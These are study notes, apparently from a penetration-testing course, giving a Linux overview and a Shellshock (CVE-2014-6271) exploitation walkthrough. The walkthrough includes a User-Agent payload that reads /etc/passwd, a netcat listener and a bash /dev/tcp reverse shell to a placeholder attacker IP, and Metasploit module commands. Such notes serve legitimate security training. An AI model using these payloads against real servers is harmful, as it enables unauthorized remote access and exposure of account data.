 ## Overview of Linux
- An open-source OS comprised of a linux kernel (developed by Linus torvalds) and a GNU toolkit (a collection of software and utilities developed by Richard Stallman)
- commonly referred to as GNU/Linux
- various distributions exist for various uses (distros have the same OS but diff desktop envs)
- Most used for servers

Egs:
Ubuntu -> general use
Kali -> security research (debian based)
Debian -> random stuff servers etc

Common Services:
- Apache Web server -p80/443  --> webserver like MIS,Nginx etc.  (443 if ssl configured)
- SSH -p22  --> succeser to telnet
- FTP -p21 --> usually exists with a webserver to transfer files
- SAMBA -p445  --> SMBs implemented for linux (for shares etc)

# Exploiting linux vulns

## Shellshock CVE-2014-6271
- Bash vuln most prevalent in past years
- involves apache and bash
- Family of vulns that affect bash aft ver 1.3 to allow RCE to obtain a bashshell

- Attacker runs a CGI script or .sh script on the target apache server to show output on the web interface

About bash:
- bash is a nix shell part of GNU and default for most linux distros

demo:
Run nmap to see if cgi used by server is vuln to shellshock
```bash
nmap -sV <ip> --script=http-shellshock --script-args="http-shellshock.url=/gettime.cgi"
```

Replace user agent header of get request used by the cgi with this (spacing impt):

User-agent:  () {  :;  }; echo; echo; /bin/bash -c 'cat /etc/passwd'

- Res given by server will be the executed code (gives a list of all user acts from above code)

Reverse shell:
- On attackers system:
	nc -lvnp 1234

- In burpsuite edit the CGI get request 
User-agent:  () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/(attackersIP)/1234 0>&1'

- -i>& redirects input from attacker to server
- 0>&1 redirects output to the listener on attacker machine

Check the linux distro used:
```bash
cat etc/*issue*

#kernal information
uname -a
```

MSF method for shellshock:
```msfconsole
#auxiliary module
use auxiliary/scanner/http/apache_mod_cgi_bash_env

#exploit
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set targeturi /gettime.cgi

```
